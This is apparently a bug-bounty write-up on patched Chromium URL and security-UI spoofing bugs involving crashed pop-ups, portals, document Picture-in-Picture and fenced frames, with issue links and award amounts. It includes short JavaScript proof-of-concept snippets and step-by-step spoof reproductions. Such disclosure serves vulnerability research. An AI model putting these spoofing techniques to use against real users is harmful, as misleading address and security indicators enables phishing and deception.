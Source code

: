 ```yaml
---
title: URL Spoof (Fixed)
---
```


# Navigating a crashed page

By crashing a cross-origin pop-up then navigating it to `data:html,foo` which gets blocked, The URL would stay cross-site but the page would be same-origin
[Issue 40054631](https://issues.chromium.org/issues/40054631) was duplicate but made a good twitter background.

Later there was a ghost image issue where the page stayed cross-origin but the contents of the previous page showed [Issue 40057561](https://issues.chromium.org/issues/40057561) was awarded $1000

I also tried the same thing with portals [Issue 40064170](https://issues.chromium.org/40064170) and it worked was awarded $2000. [video PoC](https://www.youtube.com/watch?v=yy7dR88RIHw)

```js
// --enable-features=Portals,PortalsCrossOrigin
// onclick is optional
onclick = () => {
  portal = document.createElement('portal');
  // Victim page crashs
  portal.src = 'https://ndev.tk/crashself.html';
  document.body.appendChild(portal);
  setTimeout(() => {
    // HTTP STATUS 204
    portal.src = 'https://terjanq.me/xss.php?status=204';
    portal.activate();
  }, 6000);
};
```

These attacks where migrated by needing to crash cross-site, however [Issue 40054631](https://issues.chromium.org/issues/40054631) had a way to do it similar to the [crossOriginIsolated bypass](https://ndevtk.github.io/writeups/2021/12/30/crossoriginisolated-bypass/) and any extension can crash any tab [Issue 40848497](https://issues.chromium.org/issues/40848497)

# Spoofing documentPictureInPicture

Did not update security UI on `about:blank` navigations so any window reference allowed for a spoof. [video PoC](https://www.youtube.com/watch?v=yiAr4J-e6P8)

- Enable feature `chrome://flags/#document-picture-in-picture-api` (in Origin Trial)
- On victim page do `documentPictureInPicture.requestWindow();`
- Victim PiP opens popup to attacker page like `open('https://example.org', '', 'popup=1');`
- On attacker page run `opener.location = 'about:blank';` and notice security UI did not update.
- On attacker page run `opener.document.write('foo');`

This was awarded $1000 and fixed in [Issue 40062959](https://issues.chromium.org/40062959) by ensuring subsequent about:blank loads close the PiP window.
First patch was bypassable by using the extension `chrome.tabs.discard()` API. [video PoC](https://www.youtube.com/watch?v=yH-Cd0wWJEU).

When using fenced frames `documentPictureInPicture` would display the top-page origin not the embed.

```js
f = document.createElement('fencedframe');
f.src =
  'https://terjanq.me/xss.php?h[Supports-Loading-Mode]=fenced-frame&js=onclick=()=>documentPictureInPicture.requestWindow();';
document.body.appendChild(f);
```

This was awarded $4000 and fixed in [Issue 40062954](https://issues.chromium.org/40062954) and [Issue 40063068](https://issues.chromium.org/40063068) by making it so non-top most frames can't open PiP.
